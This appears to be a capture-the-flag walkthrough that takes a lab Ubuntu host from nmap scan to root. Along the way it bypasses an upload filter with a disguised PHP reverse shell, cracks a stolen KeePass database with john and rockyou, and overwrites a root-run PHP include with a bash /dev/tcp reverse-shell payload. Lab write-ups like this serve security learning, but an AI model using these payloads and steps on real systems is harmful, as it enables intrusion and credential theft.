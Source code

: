 ### nmap
PORT    STATE SERVICE     VERSION 
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)  
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))  
139/tcp open  netbios-ssn Samba smbd 4.6.2  
445/tcp open  netbios-ssn Samba smbd 4.6.2  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

## directory enumeration  
/cloud 
File upload from External server.  
1. Start python server on kali machine
python -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
2. Rename shell to php-reverse-shell.php#.jpg and also keep php-reverse-shell.php in the same folder  
3. start nc -nlvp 4444  
4. Upload the file  
5. We get reverse shell

## remote machine /opt folder  
There is a dataset.kdbx file  
.kdbx file is a KeePass password database—it's encrypted and used to securely store usernames, passwords, and other secrets  
1. Start python3 -m http.server  
python3 -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
2. Go to browser and type http://10.10.208.45:8000/
3. We can downlod this dataset.kdbx file from this link to the local machine
4. python3 ../tools/keepass2john/keepass2john.py dataset.kdbx > hash.txt
5. john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
6. we get the password - 741852963
7. keepassxc  
8. enter the passkey and we get the password for sysadmin
9. get the userflag  
10. install pspy64  
11. scripts.php runs multiple times
12. script.php evlauates lib/backup.inc.php
13. require_once('lib/backup.inc.php');  Includes and evaluates the specified file only once, even if the line is called multiple times
14. so, rm backup.inc.php
15. nano backup.inc.php
16. <?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.17.10.89/1234 0>&1'"); ?>
17. start nc -nlvp 1234 on local machine
18. as the script runs as per step 11
19. we get root shell on local machine  
20. Final flag  



